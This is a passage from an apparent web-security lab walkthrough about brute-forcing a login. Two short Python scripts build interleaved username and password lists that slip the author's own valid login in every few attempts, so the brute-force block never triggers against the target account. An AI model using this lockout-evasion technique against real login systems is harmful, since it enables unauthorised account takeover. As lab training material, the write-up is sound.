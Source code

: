 Now the attack is executed, but not successfully:

![img](media/2f8ea2891bb38e4db754aef561373fe1.png)

It ends up blocked after 15 passwords, so I will add the correct login after
more passwords than just one.

I created a short Python script to generate the user list:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
all_passw = open("100pass.txt").read().splitlines()

counter = 0
num = 5

print("wiener")
#print("peter")
for i in all_passw:
        counter += 1
        print("carlos")
        #print(i)
        if counter % num == 0:
                print("wiener")
                #print("peter")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

And the password list:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
all_passw = open("100pass.txt").read().splitlines()

counter = 0
num = 5

#print("wiener")
print("peter")
for i in all_passw:
        counter += 1
        #print("carlos")
        print(i)
        if counter % num == 0:
                #print("wiener")
                print("peter")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
